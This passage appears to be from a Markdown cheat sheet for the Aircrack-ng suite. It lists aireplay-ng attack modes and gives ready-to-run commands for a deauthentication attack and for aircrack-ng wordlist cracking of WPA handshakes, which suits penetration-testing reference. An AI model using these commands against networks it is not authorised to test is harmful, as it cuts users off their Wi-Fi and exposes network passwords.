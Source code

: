|AUTH |	The authentication protocol used. One of MGT (WPA/WPA2/WPA3 Enterprise), SKA (WEP shared key), PSK (WPA/WPA2/WPA3 pre shared key), or OPN (WEP open authentication)|
|ESSID |	The so-called SSID, which can be empty if the SSID is hidden|
  
### Aireplay-ng 
Aireply-ng used for creating traffic. Ability to do deauthentication attacks etc.

| Attacks | Description |
|--|--|
|0 | 	Deauthentication
|1 |	Fake Authentication
|2 	|Interactive Packet Replay
|3 	|ARP Request Replay Attack
|4 	|KoreK ChopChop Attack
|5 	|Fragmentation Attack
|6 |	Café-Latte Attack
|7 |Client-Oriented Fragmentation Attack
|8 |	WPA Migration Mode Attack
|9 |	Injection Test

Performing a deauthentication attack.
| De-auth | Description |
|--|--|
| `sudo airmon-ng start wlan0 3`| Set card to correct channel  
| `sudo aireplay-ng -9 wlan0mon` | Check if we can inject `-9` (30-frame test to check connection quality). This will report back success rate for injection attacks.  
| `sudo aireplay-ng -9 -e AP-name -a <BSSID-MAC> wlan0mon`| Injection against speciffic ESSIDE (-e) and BSSID. Again performing checks against specific target AP.    
| `sudo aireplay-ng --deauth 1000 -a <AP-BSSID> -c <CLIENT-MAC> wlan0mon`| Deauthenticate a certain client from the target AP. 1000 deauth packets.
                                           

### Aircrack-Ng 
Aircrack-ng. It can crack WEP and WPA/WPA2 networks that use pre-shared keys or PMKID.  
Aircrack-ng is considered an offline attack since it works with packet captures and doesn't require interaction with any Wi-Fi device.  

| Command | Description |
|--|--|
|`sudo aircrack-ng -S` | Benchmark CPU cracking performance (15 second test) |
|`sudo aircrack-ng hash.hccapx -w /wordlist.txt` | Use wordlist |
|`sudo aircrack-ng hash.hccapx -e ESSID -w /wordlist.txt` | Use wordlist |

